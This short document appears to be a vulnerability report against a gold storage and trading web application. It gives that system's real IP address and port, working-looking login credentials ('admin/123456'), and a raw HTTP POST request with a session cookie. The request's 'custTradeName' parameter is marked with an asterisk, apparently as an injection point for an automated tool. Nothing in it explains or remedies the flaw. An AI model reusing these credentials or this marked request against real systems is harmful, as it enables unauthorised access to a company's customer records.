 https://113.105.126.146:8900/  admin/123456

```
POST /storagework/custTakeInfoPage.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=120szhvp9dh7nufxi51v08bs6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/reportframework/custStorageTakeInfoSel.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&prodidsel=Au99.99&takeStateId=00&custTradeName=代理深圳萃华*

```
![ef8dc378-c175-4af2-8495-873191cb294e.png](images/ef8dc378-c175-4af2-8495-873191cb294e.png)
